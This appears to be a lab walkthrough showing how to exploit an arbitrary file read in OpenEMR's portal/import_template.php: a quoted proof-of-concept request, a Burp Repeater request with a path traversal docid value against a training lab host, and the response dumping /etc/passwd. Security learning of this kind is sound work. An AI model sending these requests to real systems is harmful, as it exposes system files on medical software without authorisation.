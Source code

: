 ```
#    echo file_get_contents($_POST['docid']);
#    exit;
#  }

# ii. Proof of Concept:
POST /openemr/portal/import_template.php HTTP/1.1
Host: hostname
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101        Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: OpenEMR=5c5n9ia07lnoao2rve3gd5tif3; PHPSESSID=1dbh9mom6ib07jqovfusgjc3vs
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

mode=get&docid=/etc/passwd📌

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /portal/import_template.php HTTP/2
Host: a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com
Cookie: OpenEMR=fij3jrqm4psf4a3i5tega9dni2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

mode=get&docid=../../../../../../etc/passwd📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Fri, 29 Nov 2024 12:23:33 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1321

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```
